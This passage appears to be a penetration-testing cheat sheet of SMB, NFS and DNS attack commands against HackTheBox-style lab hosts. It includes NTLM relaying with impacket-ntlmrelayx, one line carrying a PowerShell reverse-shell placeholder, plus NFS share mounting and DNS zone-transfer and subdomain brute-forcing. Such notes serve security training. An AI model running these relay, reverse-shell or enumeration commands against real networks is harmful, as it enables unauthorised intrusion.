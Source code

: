     - SMB oFF
        - cat /etc/responder/Responder.conf | grep 'SMB =’
    - impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
    - impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c ‘<powershellrev>

## NFS

- TCP UDP 111
- cat /etc/exports
- sudo nmap 10.129.14.128 -p111,2049 -sV -sC
- sudo nmap --script nfs* 10.129.14.128 -sV -p111,2049
- Show available NFS Shares
    - showmount -e 10.129.14.128
- Mounting NFS Share
    - mkdir target-NFS
    - sudo mount -t nfs 10.129.14.128:/ ./target-NFS/ -o nolock
    - ls -la
    - ls -l mnt/nfs/
    - ls -n mnt/nfs/
    - cd target-NFS
    - tree .
    - sudo umount ./target-NFS

## DNS

- dig soa [www.inlanefreight.com](http://www.inlanefreight.com/)
- dig ns inlanefreight.htb @10.129.14.128
- dig CH TXT version.bind 10.129.120.85  - dns server version
- dig any inlanefreight.htb @10.129.14.128
- dig axfr inlanefreight.htb @10.129.14.128
- dig axfr internal.inlanefreight.htb @10.129.14.128
- subdomain bruteforcing
    - for sub in $(cat /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-110000.txt);do dig $sub.inlanefreight.htb @10.129.14.128 | grep -v ';\|SOA' | sed -r '/^\s*$/d' | grep $sub | tee -a subdomains.txt;done
- dnsenum --dnsserver 10.129.14.128 --enum -p 0 -s 0 -o subdomains.txt -f /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-110000.txt inlanefreight.htb
- dig AXFR @ns1.inlanefreight.htb inlanefreight.htb
- enumerate all DNS servers of the root domain
    - fierce --domain [zonetransfer.me](http://zonetransfer.me/)
- Subdomain Enumeration
    - ./subfinder -d [inlanefreight.com](http://inlanefreight.com/) -v
- Subbrute
    
    ```xml
    vnk50@htb[/htb]$ git clone https://github.com/TheRook/subbrute.git >> /dev/null 2>&1
    vnk50@htb[/htb]$ cd subbrute
    vnk50@htb[/htb]$ echo "ns1.inlanefreight.com" > ./resolvers.txt
    vnk50@htb[/htb]$ ./subbrute inlanefreight.com -s ./names.txt -r ./resolvers.txt
    ```
    
